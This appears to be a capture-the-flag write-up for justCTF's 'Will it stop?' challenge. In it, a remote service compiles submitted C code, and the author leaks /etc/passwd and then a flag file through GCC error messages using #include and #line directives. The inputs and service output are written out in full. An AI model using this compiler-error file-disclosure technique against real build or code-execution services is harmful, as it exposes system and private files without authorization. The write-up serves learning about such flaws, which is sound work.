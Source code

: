 # Will it stop?

Poor Vesim... Would you help him?
```
nc will-it-stop.nc.jctf.pro 1337
```
PS: The flag is in users home directory.

---

The [pdf](ctf.pdf) in the description asks us to write code to see if a given Python program will ever stop execution. This is a reference to Turing's halting problem and it is impossible to solve. We have to find another way to get the flag.

Since we have access to a C compiler, we can try to include local files.

```
How many lines does your C program parsing a Python code have?
1
Write your program now:
#include "/etc/passwd"
Ok, let's build it!
In file included from <stdin>:1:0:
/etc/passwd:1:8: error: expected '=', ',', ';', 'asm' or '__attribute__' before ':' token
 aturing:x:1000:1000::/home/aturing:/bin/sh
        ^
COMPILATION FAILED
```

Now that we know the professor's home directory is `/home/aturing`, let's try to read the flag!

```
How many lines does your C program parsing a Python code have?
1
Write your program now:
#include "/home/aturing/flag"
Ok, let's build it!
In file included from <stdin>:1:0:
/home/aturing/flag:1:8: error: expected '=', ',', ';', 'asm' or '__attribute__' before ':' token
 justCTF:is_this_the_real_flag__is_this_just_fantasy__open_your_eyes_look_bellow_in_the_file_and_see
        ^
COMPILATION FAILED
```

The file exists, but it looks like the first line of the file causes errors, so we can't see the actual flag.

After reading through the GCC preprocessor directives, I found an interesting one: [#line](https://gcc.gnu.org/onlinedocs/cpp/Line-Control.html)

```
How many lines does your C program parsing a Python code have?
1
Write your program now:
#line 2 "/home/aturing/flag"
Ok, let's build it!
/usr/lib/gcc/x86_64-linux-gnu/7/../../../x86_64-linux-gnu/Scrt1.o: In function `_start':
(.text+0x20): undefined reference to `main'
collect2: error: ld returned 1 exit status
COMPILATION FAILED
```

After playing around, I was able to get the flag by adding `foo` on the next line to create an error.

```
How many lines does your C program parsing a Python code have?
2
Write your program now:
#line 2 "/home/aturing/flag"
foo
Ok, let's build it!
/home/aturing/flag:2:1: error: expected '=', ',', ';', 'asm' or '__attribute__' at end of input
 justCTF{mama_just_got_a_flag}
 ^~~
COMPILATION FAILED
```
